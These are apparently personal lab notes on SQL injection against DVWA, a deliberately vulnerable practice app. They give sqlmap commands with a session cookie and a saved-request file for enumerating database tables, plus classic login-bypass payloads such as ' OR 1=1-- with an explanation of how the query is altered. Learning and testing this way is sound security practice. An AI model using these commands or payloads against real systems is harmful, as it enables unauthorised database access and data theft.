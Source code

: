 # sqlmap 

sqlmap -cookie="security=high; PHPSESSID=a3a6968ac0cb1775f890061af0b42108"" -u “http://192.168.0.6/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”

//better to sent request trough ZAP proxy save the request somehwere and the to run it with the file:

sqlmap -r "/home/kali/Documents/sqlinj.raw" 

//enumerate all sql tables to get an full reports of them
sqlmap -r "/home/kali/Documents/sqlinj.raw" --tables

# commands
1) Try to only put ' or “ in

//ends wit comment to ignore rest select * from users where email='$email' and password='pw' => tansforms to: slect * from users where email=' ' OR 1=1--' and password='pw' 
2) ' OR 1=1--
3) ' OR 1=1; --
